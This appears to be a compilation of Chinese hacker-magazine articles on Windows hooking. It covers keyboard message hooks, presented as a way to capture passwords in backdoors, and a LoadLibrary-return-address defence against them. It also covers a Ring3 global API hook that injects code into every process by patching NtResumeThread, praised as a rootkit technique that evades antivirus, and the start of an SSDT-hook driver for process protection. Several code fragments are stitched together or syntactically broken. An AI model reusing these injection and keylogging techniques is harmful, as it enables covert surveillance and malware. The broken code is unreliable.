在当今黑客程序中，Hook 技术无疑占据了很大的比重，很多远程监控，例如键盘监控技术等，都离不开 Hook 技术。本文详细介绍 Hook 技术应用细节，并与大家一起研究其防御方法。

## 倚天剑

在后门程序的编写中，密码截获是很常见的功能，今天我们就以此为例，介绍一下 Message Hook 技术。

### 1. 原理

想当年在 DOS 时代，如果我们想要更改某个系统功能是很简单的，更改一下中断向量就可以了。但是在 Windows 时代，这一切就没有那么简单了。于是，Windows 给我们提供了 Hook，通过它，我们可以对一些系统功能进行简单的更改。

众所周知，Windows 的很多操作是基于消息的，不同种类的消息可以被归纳为几类事件。通过挂钩，我们可以捕捉当前进程或其他进程发生的事件。我们需要给 Windows 一个处理或过滤事件的回调函数，该函数也叫“钩子函数”。当每次发生我们感兴趣的事件时，Windows 都将调用该函数。一共有两种类型的钩子：局部钩子和远程钩子。

局部钩子仅钩挂当前进程的事件，而远程钩子还可以钩挂其他进程发生的事件。远程钩子又有以下两种：

- 1. 基于线程的：这种钩子的作用是监控系统中特定线程中的特定事件。
- 2. 系统范围的：捕捉系统中所有进程将发生的特定事件消息，也就是我们说的全局钩子。

当创建一个钩子时，Windows 会先在内存中创建一个数据结构，该数据结构包含了钩子的相关信息，然后把该结构体加到已经存在的钩子链表中去。新的钩子将加到旧的前面。当一个事件发生时，如果安装的是一个局部钩子，该进程中的钩子函数将被调用；如果是一个远程钩子，系统就必须把钩子函数插入到其他进程的地址空间。

要做到这一点，要求钩子函数必须在一个动态链接库中。所以如果你想要使用系统钩子，就必须把该钩子函数放到动态链接库中去。这是因为系统钩子是针对整个系统中的全部进程进行挂载。众所周知，Windows 的进程虚拟内存保护机制使得不同进程之间内存相互访问十分困难，所以在对其他进程进行监控时，必须把监控代码加载到该进程的地址空间中。

系统执行顺序是这样的：当发生特定事件时，系统首先检查该事件上是否存在钩子函数；如果有，检测该钩子函数是否为全局钩子；如果是，进一步检测该钩子函数对应的 DLL 是否已经加载到对应进程当中，若未加载则加载；确认加载后调用钩子函数，重复该过程直到全部挂钩在该事件上的钩子函数调用完毕。

此外，Windows 还提供了一种低级钩子，包括低级键盘钩子和低级鼠标钩子，也属于系统钩子范畴。这两种钩子对系统全部进程进行监控，但并不需要将自己的代码加载到系统其他进程，而是基于消息机制进行监控。系统在发生该钩子监控的事件后，会给该钩子设置的进程发消息，然后由设置钩子的进程进行相关处理。

- 1. 进程的消息处理函数必须在一定时间内返回，以保证系统运行流畅。
- 2. 设置低级钩子的函数必须包含一个消息队列。

接下来介绍一些常用的 Hook 类型。

- 1) `WH_CALLWNDPROC` 和 `WH_CALLWNDPROCRET` Hooks 监视发送到窗口过程的消息。系统在消息发送到接收窗口过程之前调用 `WH_CALLWNDPROC` Hook 钩子函数，并且在窗口过程处理完消息之后调用 `WH_CALLWNDPROCRET` Hook 钩子函数。
- 2) `WH_CBT` Hook 在以下事件之前，系统都会调用 `WH_CBT` Hook 钩子函数，这些事件包括：
  - A. 激活、建立、销毁、最小化、最大化、移动、改变尺寸等窗口事件；
  - B. 完成系统指令；
  - C. 来自系统消息队列中的移动鼠标、键盘事件；
  - D. 设置输入焦点事件；
  - E. 同步系统消息队列事件。  
  Hook 钩子函数的返回值确定系统是否允许或者防止这些操作中的一个。
- 3) `WH_DEBUG` Hook 在系统调用中，与其他 Hook 关联的 Hook 钩子函数之前，系统会调用 `WH_DEBUG` Hook 钩子函数。你可以使用这个 Hook 来决定是否允许系统调用与其他 Hook 关联的 Hook 钩子函数。
- 4) `WH_FOREGROUNDIDLE` Hook 当应用程序的前台线程处于空闲状态时，可以使用 `WH_FOREGROUNDIDLE` Hook 执行低优先级任务。当应用程序的前台线程大概要变成空闲状态时，系统就会调用 `WH_FOREGROUNDIDLE` Hook 钩子函数。
- 5) `WH_GETMESSAGE` Hook 应用程序使用 `WH_GETMESSAGE` Hook 来监视从 `GetMessage` 或 `PeekMessage` 函数返回的消息。你可以使用 `WH_GETMESSAGE` Hook 去监视鼠标和键盘输入，以及其他发送到消息队列中的消息。
- 6) `WH_JOURNALPLAYBACK` Hook 使应用程序可以插入消息到系统消息队列。可以使用这个 Hook 回放通过 `WH_JOURNALRECORD` Hook 记录下来的连续鼠标和键盘事件。
- 7) `WH_JOURNALRECORD` Hook 用来监视和记录输入事件。典型地，可以使用这个 Hook 记录连续的鼠标和键盘事件，然后通过 `WH_JOURNALPLAYBACK` Hook 来回放。`WH_JOURNALRECORD` Hook 是全局 Hook，它不能像线程特定 Hook 一样使用。
- 8) `WH_KEYBOARD` Hook：在应用程序中，`WH_KEYBOARD` Hook 用来监视 `WM_KEYDOWN` 和 `WM_KEYUP` 消息，这些消息通过 `GetMessage` 或 `PeekMessage` 函数返回。可以使用这个 Hook 来监视输入到进程消息队列中的键盘消息。
- 9) `WH_KEYBOARD_LL` Hook 监视输入到线程消息队列中的键盘消息。
- 10) `WH_MOUSE` Hook 监视从 `GetMessage` 或 `PeekMessage` 函数返回的鼠标消息。使用这个 Hook 监视输入到消息队列中的鼠标消息。
- 11) `WH_MOUSE_LL` Hook 监视输入到线程消息队列中的鼠标消息。
- 12) `WH_MSGFILTER` 和 `WH_SYSMSGFILTER` Hooks 可以监视菜单、滚动条、消息框、对话框消息，并且发现用户使用 `ALT+TAB` 或 `ALT+ESC` 组合键切换窗口。`WH_MSGFILTER` Hook 只能监视传递到菜单、滚动条、消息框的消息，以及传递到通过安装了 Hook 钩子函数的应用程序建立的对话框的消息。`WH_SYSMSGFILTER` Hook 监视所有应用程序消息。`WH_MSGFILTER` 和 `WH_SYSMSGFILTER` Hooks 使我们可以在模式循环期间过滤消息，这等价于在主消息循环中过滤消息。通过调用 `CallMsgFilter` function 可以直接调用 `WH_MSGFILTER` Hook。通过使用这个函数，应用程序能够在模式循环期间使用相同代码去过滤消息，如同在主消息循环里一样。
- 13) `WH_SHELL` Hook 外壳应用程序可以使用 `WH_SHELL` Hook 去接收重要通知。当外壳应用程序是激活的，并且当顶层窗口建立或者销毁时，系统调用 `WH_SHELL` Hook 钩子函数。`WH_SHELL` 共有 5 种情况：
  - F. 只要有 top-level、unowned 窗口被产生、起作用或者被摧毁；
  - G. 当 Taskbar 需要重画某个按钮；
  - H. 当系统需要显示关于 Taskbar 的一个程序的最小化形式；
  - I. 当目前的键盘布局状态改变；
  - J. 当使用者按 `Ctrl+Esc` 去执行 Task Manager（或相同级别的程序）。

讲了半天原理，下面给大家举个例子吧。

### 2. 实现

在随文附带的程序中，有一个我编写的 Demo，界面如图 1 所示。


> 图1

程序的功能十分简单，就是实现了对系统键盘钩子和低级键盘钩子的挂载。主程序在初始化过程中获得包含钩子函数的 DLL 文件句柄。

```cpp
this->hKeyHookDll = LoadLibrary((LPCTSTR)"...//Win32Dll//Release//Win32Dll.dll");
if (this->hKeyHookDll == NULL)
{
    this->MessageBox("Load Library Error!");
    return FALSE;
}
```

在按钮的消息处理函数中获得 DLL 中相应的函数指针，并调用之：

```cpp
void CHookExampleDlg::OnBnClickedSetKeyHook()
{
    // TODO: 在此添加控件通知处理程序代码
    typedef BOOL (CALLBACK *inshook)();
    inshook InstallKeyHook = (inshook)NULL;
    InstallKeyHook = (inshook)GetProcAddress(this->hKeyHookDll, "InstallHook");
    if (InstallKeyHook == NULL)
    {
        this->MessageBox("GetProcAddress ERROR");
    }
    else
    {
        if (!InstallKeyHook())
        {
            this->MessageBox("InstallKeyHook ERROR");
        }
    }
}
```

几个处理函数基本相同，不再浪费版面。下面继续分析 DLL 文件内容。首先，为了让大家明白 DLL 在不同进程加载的过程，我在 DLL 的 `DllMain` 函数中加入了如下代码：

```cpp
case DLL_PROCESS_ATTACH:
{
    TCHAR szModule[256];
    GetModuleFileName(NULL, szModule, 256);
    MessageBox(NULL, szModule, "DLL_PROCESS_ATTACH", MB_OK);
    break;
}
```

这样我们就可以通过 MessageBox 查看加载该 DLL 的进程对应的 EXE 文件了。下面介绍安装钩子的函数，其实安装钩子关键就是对 API `SetWindowsHookEx` 的调用。

该函数有 4 个参数：第 1 个参数是钩子类型，在本文中分别是 `WH_KEYBOARD` 和 `WH_KEYBOARD_LL`；第 2 个参数是回调函数指针；第 3 个参数是包含钩子函数的模块句柄；第 4 个参数是线程句柄（全系统钩子传 `NULL`）。

最后介绍回调函数，也就是上面说的第 2 个参数所传递函数指针对应的函数。这个函数必须有固定格式：返回值为 `LRESULT`，参数为 `int`、`WPARAM`、`LPARAM`。若需要事件继续被处理，必须调用 `CallNextHookEx`。

运行该程序后，按“设置键盘钩子”，再在其他进程中进行按键操作（如 Word），可以看到对话框弹出。


对话框证明该钩子函数所在的 DLL 已经加载到目标进程。然后会弹出如图 3 所示对话框，此对话框在钩子回调函数中开启，证明该进程中的按键事件已经被捕获。


而如果选择“设置低级键盘钩子”，则直接弹出如图 4 所示的对话框。这里并未弹出 `DLL_PROCESS_ATTACH` 对话框，说明该钩子函数处理程序所在 DLL 在设置低级键盘钩子过程中并未加载到所监控进程地址空间。


## 天龙盾

### 1. 原理

其实预防钩子函数的方法很简单。只有在钩子处理函数中调用 `CallNextHookEx`，事件才会在系统中继续传递，注册在该事件上的其他钩子函数才有机会被调用。因此如果需要进行一些保密的按键操作，可以注册一个键盘钩子，在回调函数中处理事件后不调用 `CallNextHookEx`。

这样其他进程以前注册的钩子函数就都没有效果了。但是这样做的缺点是显而易见的，那就是可靠性太低了：如果黑客程序在你的应用程序之后注册全局钩子，一样能够监控到你的操作，所以我们必须使用其他的方法，防御全局钩子的入侵。

经过本人查阅资料，找到了一种可以对付全局钩子的方法，但是只能对付普通远程钩子（无论是系统钩子还是线程钩子），不能对付低级钩子。

钩子由 Win32 子系统提供，其核心部分通过 NtUserSetWindowsHookEx 为用户提供了设置消息钩子的系统服务，用户通过它注册全局钩子。当系统获取某些事件，比如用户按键，键盘 Driver 将扫描码等传入 Win32 的 KeyEvent 处理函数，处理函数判断有无相应 hook，有则 CallHook。此时系统取得 Hook 对象信息，若目标进程没有装载对应的 DLL，则装载之。

进入用户态的 KiUserCallbackDispatcher 后，KiUserCallbackDispatcher 根据传递的数据获取所需调用的函数、参数等，随后调用。针对上面的例子就是装载 Hook DLL，需要调用的是 LoadLibraryEx，随后进入 LdrLoadDll，装载完毕返回。

> 这里的 KiUserCallbackDispatcher 是由 ntdll 提供的，所以在该函数中调用 LoadLibrary，其返回地址必然也在该模块中。我们可以通过比较 LoadLibrary 的返回地址判断 Load DLL 操作是否为加载全局钩子所用，从而阻止包含全局钩子回调函数代码的 DLL 加载到目标进程。

## 2. 实现

本文需要使用微软库 Detour 完成 API Hook 的操作，具体使用方法大家自己去查吧，不浪费版面资源了。这里介绍一下自己编写的新 LoadLibraryExW 函数：

```c
HMODULE __stdcall My_LoadLibraryExW(LPCWSTR lpwLibFileName, HANDLE hFile, DWORD dwFlags)
{
    ULONG Addr, ModuleAddr = (ULONG)ModuleAddress;
    __asm mov eax, [ebp+4]
    __asm mov Addr, eax
    CString Tmp;
    Tmp.Format("Return Value:%x  ModuleAddress Addr:%x  ModuleAddress Size:%x", ...);
    if ((ULONG)ModuleAddress < Addr &&
        ((ULONG)ModuleAddress + DetourGetModuleSize(ModuleAddress)) > Addr)
    {
        MessageBox(NULL, Tmp, "Hook Dll Load!!", MB_OK);
        return 0;
    }
    ...
}
```

```c
My_LoadLibraryExW(MB_OK)
{
    return 0;
}
else
{
    HMODULE res = pRealLoadLibrary(...);
    MessageBox(NULL, Tmp, "Ordinarily Dll Load!!", MB_OK);
    return res;
}
```

首先，ModuleAddress 是通过 API GetModuleHandle 获得的，存储的是 ntdll.dll 的模块地址，然后通过汇编语句 `_asm mov eax, [ebp+4]`、`_asm mov Addr, eax` 获得该函数的返回地址。这里涉及到 Win32 函数调用原理，大家可以参阅一下溢出类的相关文章。

接着有关 `CString Tmp` 的几行操作是用来输出调试信息，下面的分支判断语句：

`if((ULONG)ModuleAddress < Addr && ((ULONG)ModuleAddress + DetourGetModuleSize(ModuleAddress)) > Addr)`

用来判断返回地址是否在模块 ntdll.dll 的地址空间内，`DetourGetModuleSize(ModuleAddress)` 可以通过解读 PE 文件头部获得模块的大小。如果该 LoadLibraryExW 的返回地址在该模块的地址范围内，则返回 0；否则证明该调用为合法调用，调用真实的 LoadLibraryExW 函数。

代码中两个 MessageBox 的输出为调试信息。API Hook 的工作需要在 DLLMain 里进行，这里简单介绍一下：

```c
if (ul_reason_for_call == DLL_PROCESS_ATTACH)
{
    ModuleAddress = GetModuleHandle("ntdll.dll");
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach(&(PVOID&)pRealLoadLibrary, My_LoadLibraryExW);
    error = DetourTransactionCommit();
    if (error == NO_ERROR)
    {
        MessageBox(NULL, "OK", "DLL_PROCESS_ATTACH", MB_OK);
    }
    else
    {
        MessageBox(NULL, "Error", "DLL_PROCESS_ATTACH", MB_OK);
    }
}
```

上述代码包含在 Detour.dll 中。我写了一个简单的程序测试，该程序界面如图5所示。


图5

底下 4 个按钮是用来分别加载 4 个不同的 DLL 作为测试，编辑框是为了测试加载键盘钩子的情况。此外，该程序在对话框初始化的时候显示加载了 Detour.dll。

首先我们随便按下面的 4 个按钮中的一个，会弹出如图6所示的对话框。


图6

而当我们使用“倚天剑”部分介绍的程序注册一个键盘钩子之后，在该程序的编辑框中随便敲击两下键盘，就会看到如图7所示的对话框出现。


图7

由此可见，我们已经能够成功区别合法和非法的 LoadLibrary 调用了。使用 ICESWORD 查看进程加载的模块地址，结合上面两图，可知普通 LoadLibrary 的调用在 Kernel32.dll 中完成，而 HOOK 所需的 LoadLibrary 操作在 ntdll.dll 中完成，如图8所示。


图8

#### 小结

写到这里就结束了，本文详细地介绍了钩子技术的使用方法和防御方法，希望对大家有所帮助。美中不足就是针对低级钩子等不需要加载 DLL 的钩子尚无防御办法。

MSDN 中介绍，微软为了防止处理钩子消息的线程过于繁忙、响应缓慢，在注册表 `HKEY_CURRENT_USER\Control Panel\Desktop\LowLevelHooksTimeout` 中保存一个值，当处理钩子消息的线程在该值规定时间内未返回则忽略该钩子。我曾经尝试把该值设为 0，但是低级钩子依然正常工作。大家如有什么好办法希望赐教。

【本文涉及的代码（程序），请见随书光盘】

**Socket：** API 拦截在黑客编程中往往占有很重要的比例，在 RootKit 等黑客软件中应用非常广，所以 Windows 平台底层运行的木马很难让杀毒软件发现。这次看到 VIP 会员 [King] 的这篇文章，感觉真的很爽。

## API拦截——实现 Ring3 全局 HOOK

文/[黑防VIP]King


首先来解释这次的目标。由于 Windows 的 Copy-On-Write 机制（Ring0 下可以用 CR0 寄存器关掉它），Ring3 下的 HOOK 只对当前进程有效，其他进程的 API 还是正常的。这就是说我们必须枚举进程，然后对每个 Ring3 进程进行一遍 HOOK 操作。但是，系统中总有新进程产生，对于这些新进程我们怎么处理呢？

最容易想到的就是设置一个 TIMER，每隔一段时间枚举一遍进程然后把新的挂钩。但仔细一想就知道不行：TIMER 过快严重影响系统效率，慢了又起不到作用；况且 Windows 不是一个实时操作系统，没人能保证到时间 TIMER 就被激活。

并且，在它们真正运行之前就进行挂钩操作，就可以完美地解决问题。

但是如何做到这一点呢？我们知道 Ring3 的进程都有一个“父进程”，也就是说新进程都是由老进程创建的（驱动很少创建进程）。知道这一点就好办了。我们要做的只是截获进程创建。你肯定会说“这么简单，HOOK NtCreateProcess 就可以了！”但这不是最简单的做法。为什么这么说呢，首先在 NtCreateProcess 函数被调用时进程并没有真正被创建，我们无法进行 HOOK 操作；而当 NtCreateProcess 返回时，进程却已经开始运行，HOOK 时存在线程同步的问题（我用 OD 在 NtCreateProcess 设下 INT3 断点，却拦不到，不知为什么）。

所以我选的函数是 NtResumeThread。我们知道，当新进程被创建时，OS 会为其创建一个主线程，而这之后会在调用 NtResumeThread 时开始运行。初始化完毕，DLL 都已经被载入，但进程却没有开始运行，这时是我们最好的机会。

```c
NTSTATUS NtResumeThread(
    IN HANDLE ThreadHandle,
    OUT PULONG PreviousSuspendCount OPTIONAL
);
```

思路是这样，但如何实现呢？来看一下函数的定义：我们关心的是第一个参数，它存储的是新进程主线程的句柄，我们可以通过调用 `ThreadInformationClass=0`、`ThreadInformationLength=28` 的 NtQueryInformationThread 函数来获得该线程所属进程的 PID，然后 HOOK 它就可以了。

话虽如此，可是如果把 HOOK 的代码都放到远程去未免太麻烦了。开始我想的是用远程进程调用 CreateRemoteThread 来回调 HOOK 进程，但仔细想想就会发现，我们在本地 HOOK 时有足够的权限，可是如果远程进程是 GUEST 权限呢？回调时由于权限不够会出错。翻了翻《Windows核心编程》后恍然大悟，可以使用 Windows 的事件对象来实现。用到的 API 有：

- OpenEvent
- CreateEvent
- SetEvent
- ResetEvent

在 HOOK 每一个进程的时候，用 CreateEvent 创建一个不可继承、自动重置的 Event 对象，然后创建一个线程用 WaitForSingleObject 函数等待该 Event。当拦截到新进程创建时，远程线程调用 SetEvent 来激活 Event，然后同样调用 WaitForSingleObject 函数等待。这时本地的 WaitForSingleObject 会返回，然后再进行相关的处理，接着调用 SetEvent 来让远程 HOOK 函数继续运行。

这样有个问题就是怎样知道新进程的 PID？我的解决办法是远程调用 SetEvent 前先把 PID 写在 HOOK 函数开头的特定偏移位置，然后本地用 ReadProcessMemory 来读取。

限于篇幅讲得不太具体，如果不懂最好去看一看《Windows核心编程》。

理论就讲到这里，现在来看看代码，GO！首先是 HOOK 函数，主要功能是对指定进程的指定 API 进行 HOOK 操作。

```c
int HOOKNamedApi(PDLLINFO pDllInfo, char *ApiName,
                 DWORD HOOKProc, HANDLE ObjectProcessHandle)
{
    DWORD dw, NamedApiAddress, NewFunc;
    MEMORY_BASIC_INFORMATION mbi;
    static EventInfo myEventInfo;
    static Num = 0x676e696b;

    NamedApiAddress = (DWORD)GetProcAddress(pDllInfo->hModule, ApiName);
    if (NamedApiAddress == NULL) {
        printf("Error:GetProcAddress in HOOK.api");
        return 0;
    }

    if (!VirtualQueryEx(ObjectProcessHandle, (void*)NamedApiAddress,
                        &mbi, sizeof(MEMORY_BASIC_INFORMATION))) {
        printf("Error:VirtualQueryEx in HOOK.api");
        return 0;
    }

    if (!VirtualProtectEx(ObjectProcessHandle, mbi.BaseAddress,
                          mbi.RegionSize, PAGE_EXECUTE_READWRITE, &dw)) {
        printf("Error:VirtualProtectEx in HOOK.api");
        return 0;
    }

    LPVOID WriteAddress = VirtualAllocEx(ObjectProcessHandle, 0, 1000,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    NewFunc = NamedApiAddress
              - (DWORD)pDllInfo->modinfo.lpBaseOfDll
              + (DWORD)pDllInfo->lpNewBaseOfDll;

    if (strcmp(ApiName, "NtResumeThread") == 0) {
        DWORD my_CreateEventA = (DWORD)GetProcAddress(
            GetModuleHandle("kernel32.dll"), "CreateEventA");
        HANDLE EventPar;
        __asm {
            pushad
            push 00000000h
            push Num
            push 0x676e696b
            push esp
            push 0
            push 0
            push 0
            call my_CreateEventA
            mov EventPar, eax
        }
    }
}
```

```c
add esp,12
popad
}
```

`*(PDWORD)((DWORD)FarStartUp+9)=(DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "OpenEventA");`

远程函数的 API 地址都是动态写入的。以前是写入远程后用 WriteProcessMemory 来改，后来想到这样太慢（转到 Ring0 要很多 CPU 时间），于是改在本地完成。但我们对代码段进行了写操作，默认不允许，所以要用 PE 修改工具给 `.text` 段加上可写属性。

```c
LPVOID StartUpAddr = VirtualAllocEx(...);
WriteProcessMemory(ObjectProcessHandle, StartUpAddr, (LPVOID)FarStartUp, 500, 0);
HANDLE FarThread = CreateRemoteThread(..., (PTHREAD_START_ROUTINE)StartUpAddr, (PVOID)Num, 0, 0);
WaitForSingleObject(FarThread, -1);
ReadProcessMemory(...);
VirtualFreeEx(...);
*(PDWORD)(HOOKProc + WRITEBASE + 7) = ReadBuf;
...
CreateThread(0, 0, (unsigned long (__stdcall *)(void *))my_EventProcess_Thread, &myEventInfo, 0, 0);
Num++;
...
*(PDWORD)(HOOKProc + WRITEBASE) = NewFunc;
*(PDWORD)(HOOKProc + WRITEBASE + 14) = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "GetCurrentProcessId");
*(PDWORD)(HOOKProc + WRITEBASE + 21) = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "SetEvent");
*(PDWORD)(HOOKProc + WRITEBASE + 28) = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "WaitForSingleObject");
*(PDWORD)(HOOKProc + WRITEBASE + 35) = (DWORD)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQueryInformationThread");
*(PDWORD)(HOOKProc + WRITEBASE + 42) = (DWORD)GetProcAddress(GetModuleHandle("kernel32.dll"), "ResetEvent");
WriteProcessMemory(ObjectProcessHandle, WriteAddress, (void *)HOOKProc, 1000, 0);
*(PDWORD)(&HOOKCode[0] + 1) = (DWORD)WriteAddress;
```

```c
WriteProcessMemory(ObjectProcessHandle, (LPVOID)NamedApiAddress, &HOOKCode, 7, 0); // 修改目标 API 首字节
printf("func:%x\n", WriteAddress);
return 1;
}
```

接下来是远程的初始化函数，用来打开 Event。`Void FarStartUp(int Num)` 中 Event 名称的后半段我创建为形如 `kingXXXX`。

```c
int myOpenEvent = 0x10020000; // API 函数地址，动态写入
DWORD myEventHandle = 0x00220000;
DWORD FuncAddr;
__asm {
  jmp run
GetMyAddr:
  pop eax
  mov FuncAddr, eax
  push eax
  ret
run:
  push 00000000
  push Num
  push 0x676e696b
  push esp
  push 0
  push EVENT_ALL_ACCESS
  call myOpenEvent
  mov myEventHandle, eax
}
*(PDWORD)(FuncAddr + 3) = myEventHandle;
return;
}
```

这是上面说到的等待线程。每 HOOK 一个进程就有一个对应线程，这里本应加垃圾回收机制：当本线程对应的进程不存在时线程自我销毁，不过还没来得及写。

```c
void __stdcall my_EventProcess_Thread(PVOID InEventInfo)
{
    EventInfo myEventInfo;
    PEventInfo Info = (PEventInfo)InEventInfo;
    myEventInfo.EventFar = Info->EventFar;
    myEventInfo.ObjectProcessHandle = Info->ObjectProcessHandle;
    myEventInfo.WriteAddress = Info->WriteAddress;
    while (true)
    {
        WaitForSingleObject(myEventInfo.EventFar, -1);
        ...
    }
}
```

```c
DWORD ReadBuf = 0; // 当对应进程创建完后 WaitForSingleObject 返回，执行到这里
ReadProcessMemory(myEventInfo.WriteAddress, ObjectProcessHandle,
    (LPVOID)(myEventInfo.WriteAddress + 67), &ReadBuf, 4, 0); // 从远程读出新进程的 PID

HANDLE ObjectProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 1, ReadBuf); // 打开目标进程
HOOKProcess(ObjectProcessHandle); // 执行 HOOK 操作
SetEvent(myEventInfo.EventFar); // 恢复远程 HOOK 函数运行
ResetEvent(myEventInfo.EventFar); // 保险起见重置一下

return;
```

```c
int CurrentProcess;
__asm {
    push 0
    push 28
    push infoaddr
    push 0
    push ThreadHandle
    call my_NtQueryInformationThread
    mov myStatus, eax
}

DWORD id = *(DWORD *)(SystemInfo + 8);

__asm {
    call my_GetCurrentProcessId
    mov CurrentProcess, eax
}

if (id == (DWORD)CurrentProcess) {
    __asm {
        push PreviousSuspendCount
        push ThreadHandle
        call OldNtResumeThread
        mov myStatus, eax
        popad
    }
    return myStatus;
}
```

下面是精华了，重点仔细看！

```c
DWORD __stdcall HOOK_NtResumeThread(
    HANDLE ThreadHandle,
    PULONG PreviousSuspendCount OPTIONAL)
{
    int OldNtResumeThread;
    int EventHandle;
    int my_GetCurrentProcessId;
    int my_SetEvent;
    int my_WaitForSingleObject;
    int my_NtQueryInformationThread;
    int my_ResetEvent;

    __asm {
        mov OldNtResumeThread, 0012244h
        mov EventHandle, 00225588h
        mov my_GetCurrentProcessId, 22447799h
        mov my_SetEvent, 55662244h
        mov my_WaitForSingleObject, 55889966h
        mov my_NtQueryInformationThread, 77554411h
        mov my_ResetEvent, 55661188h
        pushad
    }

    __asm call GetAddr;
    int FarRead;
    __asm mov FarRead, 22550011h;
    DWORD myAddr;
    __asm {
        jmp start;
GetAddr:
        pop eax
        mov myAddr, eax
        push eax
        ret
start:
    }

    DWORD myStatus;
    BYTE SystemInfo[60];
    int infoaddr = (DWORD)&SystemInfo;
}
```

```c
if (myStatus == 0) {
    *(PDWORD)(myAddr + 3) = id;
    __asm {
        push EventHandle
        call my_SetEvent
        push -1
        push EventHandle
        call my_WaitForSingleObject
        push EventHandle
        call my_ResetEvent
    }
}

__asm {
    push PreviousSuspendCount
    push ThreadHandle
    call OldNtResumeThread
    mov myStatus, eax
    popad
}

return myStatus;
```

> [本文涉及的代码（程序），请见随书光盘]

## 内核方法：实现进程保护

文／图 夜枫

最近的《黑客防线》杂志编程板块很多文章都是讨论关于 Ring0 级的文章，其中印象最深的是 2007 年第 11 期的一篇名为《Windows Rootkit 开发初步》文章。这篇文章大致讲的是 Rootkit 实现进程隐藏，当时我受益匪浅。后来看到这期另外一篇名为《木马编程DIY之线程守护》文章，提到了一个双进程实现进程守护的方法，不过它的引言里提到了 IceSword 的一种 HOOK 系统底层函数的方法，但是没有细讲。然后我查询很多资料加上自己的研究，试验成功了这个方法。代码原理和 Rootkit 文章的原理类似，不过我稍加改进，更简洁明了，希望对大家学习驱动开发能有一定的帮助。

#### 步骤整理

- 第一步，修改 SSDT 表来实现对 NtOpenProcess 的挂钩。
- 第二步，通过自定义的 NtOpenProcess 函数过滤传递进来的 PID（进程 ID，用于标识进程，PID 不会有重复值，一个进程一个，可能不连续）。

#### 原理分析

大家知道，如果想要结束一个进程，需要获得当前进程的访问权限，方法是先调用系统 API 函数 OpenProcess 打开进程。

```c
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
);
```

其中设置第一个参数为值 PROCESS_ALL_ACCESS，而实际上 OpenProcess 这个 API 对应了内核的 NtOpenProcess 函数。这个我们可以用 IceSword 查看到，如图 1 所示，是个系统的 SSDT 表。我们更改 NtOpenProcess 的默认地址，就可以实现对 NtOpenProcess 函数的过滤了（这个原理和 HOOK API 原理类似）。当调用 NtOpenProcess 时，我们先判断是否为我们指定要保护的进程，如果不是，则不管它；如果是，则直接返回。这时调用 OpenProcess 的程序（因为程序调用的是 OpenProcess 在 Kernel32.dll 上的导出函数到 ntdll.dll 的 NtOpenProcess 函数，最后到内核的 NtOpenProcess，具体信息可以查阅一些内核方面的资料）没有获得到正确的访问权限，当调用 TerminateProcess 结束进程的时候就会出错。

#### 开发准备

首先我们需要 DDK。我用的是 Windows 2003 的 DDK，也有 Windows XP/2000 的 DDK，不过 Windows 2003 的在 Windows XP 下一样可以使用。安装好后，在“开始”菜单里可以找到相应的内容，如图 2 所示。选择后会出现一个控制台，进入到代码的目录后，使用 Build 命令就可以编译相应的文件了（选择 Windows XP Free Build Environment 则可以生成发布版，也就是说，是给别人用的。Checked 版本是调试版本，对方没有 DDK 则无法运行，这里随便选都可以，似乎没有影响），如图 3 所示。

驱动编译和一般的编译方法不太一样，需要一个 source 和一个 makefile 两个文件（都没有扩展名），两个文件指示了哪些文件是需要编译的文件以及编译后的一些信息。

makefile 内容如下：

```makefile
INC\DDK\inc\makeenv.bat\makefile.def
```

source 内容如下：

```ini
TARGETNAME=Protect
TARGETPATH=\sys
TARGETTYPE=DRIVER
SOURCES=Protect.c
```

其中 Protect.c 是源文件。

#### 代码分析

下面我们就开始编写代码。先建立一个设备，这样就可以通过程序动态地控制要保护的 PID，否则每次 PID 都会变，我们的程序就没有实际价值了。

```c
#include "ntddk.h"
#define NT_DEVICE_NAME L"\\Device\\ProtectProcess"
#define DOS_DEVICE_NAME L"\\DosDevices\\ProtectProcess"
#define IOCTL_PROTECT_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp);
VOID OnUnload(IN PDRIVER_OBJECT DriverObject);

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    // 卸载时会调用
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT DeviceObjectTemp1 = NULL;
    PDEVICE_OBJECT DeviceObjectTemp2 = NULL;
    DbgPrint("驱动程序卸载...\n");
    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    IoDeleteSymbolicLink(&DeviceLinkString);
    if (DriverObject)
    {
        DeviceObjectTemp1 = DriverObject->DeviceObject;
        while (DeviceObjectTemp1)
        {
            DeviceObjectTemp2 = DeviceObjectTemp1;
            DeviceObjectTemp1 = DeviceObjectTemp1->NextDevice;
            IoDeleteDevice(DeviceObjectTemp2);
        }
    }
    DbgPrint("设备已经卸载\n");
    DbgPrint("驱动卸载完毕\n");
}
```

```c
NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // IRP_MJ_DEVICE_CONTROL 的响应函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    ULONG ioControlCode = 0;
    PIO_STACK_LOCATION IrpStack = NULL;
    long* inBuf = NULL;
    char* outBuf = NULL;
    ULONG inSize = 0;
    ULONG outSize = 0;
    PCHAR buffer = NULL;
    PMDL mdl = NULL;

    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);

    switch (IrpStack->MajorFunction)
    {
    case IRP_MJ_CREATE:
        DbgPrint("IRP_MJ_CREATE 被调用\n");
        break;
    case IRP_MJ_CLOSE:
        DbgPrint("IRP_MJ_CLOSE 被调用\n");
        break;
    case IRP_MJ_DEVICE_CONTROL:
        DbgPrint("IRP_MJ_DEVICE_CONTROL 被调用\n");
